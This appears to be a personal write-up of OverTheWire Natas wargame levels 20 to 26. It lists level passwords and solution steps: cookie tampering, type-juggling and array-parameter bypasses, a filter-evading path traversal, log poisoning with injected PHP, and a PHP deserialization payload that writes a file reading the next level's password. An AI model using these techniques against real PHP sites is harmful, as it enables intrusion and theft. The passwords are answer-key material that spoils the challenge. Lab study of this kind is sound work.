 	Solution: https://nils-maeurer.de/post/overthewire-natas20-21/

	The_Next_Lvl_Password: BPhv63cKE1lkQl04cE5CuFTzXe15NfiH

________________________________________________________________
Natas_20 -> Natas_21

	Solution: experimenter page -> burp suite intercept -> change request : delete Cookie PHPSESSID, add debug=''& align=left& fontsize=99%25& bgcolor=red& submit=Update&admin=1 -> get new PHPSESSID -> pass that sessid in real page

	The_Next_Lvl_Password: d8rwGBl0Xslg3b76uh3fEbSlnOUBlozz

________________________________________________________________
Natas_21 -> Natas_22

	Solution: burp suite intercept -> add Get /?revelio -> get password

	The_Next_Lvl_Password: dIUQcI3uSus1JEOSSWRAEXBG8KbR8tRs

________________________________________________________________
Natas_22 -> Natas_23

	Solution: 10111iloveyou (checks 1/ if contains iloveyou and 2/ when starts with number > 10 compares as numbers, number can be anything > 10)

	The_Next_Lvl_Password: MeuqmfJ8DDKuTr5pcvzFKSwlxedZYEWd

________________________________________________________________
Natas_23 -> Natas_24

	Solution: /?passwd[]=test

	The_Next_Lvl_Password: ckELKUWZUfpOv6uxS6M7lXBpBssJZ4Ws

________________________________________________________________
Natas_24 -> Natas_25

	Solution: ? do directory traversal that causes error. -> look at log files -> edit user agent , add malicious php -> look at log file ( natas25_phpsessid.log) -> lang=....//....// ....//....//.... //var/www/natas/natas25/logs/natas25_1hr3tn0jegf8g1d4omolhf2g8h.log

	The_Next_Lvl_Password: cVXXwxMS3Y26n5UZU89QgpGmWCelaQlE

________________________________________________________________
Natas_25 -> Natas_26

	Solution: construct php file

```
<?php

	class Logger {
	    private $logFile;
	    private $initMsg;
	    private $exitMsg;
    
	    function __construct(){
	        $this->initMsg="heyyyyyy\n";
		    $this->exitMsg="<?php echo file_get_contents('/etc/natas_webpass/natas27'); ?>\n";
		    $this->logFile = "/var/www/natas/natas26/img/n0j.php";
	    }
	}

	$o = new Logger();
	print base64_encode(serialize($o))."\n";

?>
```
	 run it -> copy the output -> paste it in burp suite repeater in drawing = {paste here} -> visit /img/n0j.php
